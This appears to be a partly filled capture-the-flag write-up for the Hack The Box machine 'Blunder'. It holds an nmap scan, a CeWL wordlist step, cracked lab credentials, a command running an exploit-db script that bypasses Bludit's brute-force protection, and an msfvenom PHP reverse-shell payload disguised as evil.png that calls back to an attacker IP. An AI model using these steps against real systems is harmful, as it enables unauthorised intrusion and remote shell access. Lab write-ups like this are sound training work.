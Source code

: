 # Information gathering
`10.10.10.191`

## Port Scan

``` bash
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-12 19:24 CST
Nmap scan report for 10.10.10.191
Host is up (0.31s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
|_http-generator: Blunder

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.57 seconds
```

## Service Enumerate

### Web Enumerate
#### Directory Enum
find admin directory
### Service 2


## Password Crack
### john

### hydra

### CeWL

```
cewl http://10.10.10.191
```

# Exploit
1. brute force the password and get valid credential: `fergus / RolandDeschain`

2. bypass brute force protection vuln: [https://rastating.github.io/bludit-brute-force-mitigation-bypass/]

```bash
python3 48942.py -l http://10.10.10.191/admin -u user.txt -p password.txt
```

## Initial Foothold

1. generate payload `msfvenom -p php/reverse_php lhost=10.10.14.2 lport=6001 -f raw -b '"' > evil.png`
2. exp link: https://www.exploit-db.com/exploits/48701
3. edit exp:
```
url = 'http://10.10.10.191'  # CHANGE ME
username = 'fergus'  # CHANGE ME
password = 'RolandDeschain'  # CHANGE ME

```

### Exploit method

### Vulnerability Explanation

### Exp code or link

### Proof screen shot



## Lateral Movement

### Exploit method

### Exp code or link

### Proof screen shot


## Privilege Escalation

### Exploit method

### Exp code or link

### Proof screen shot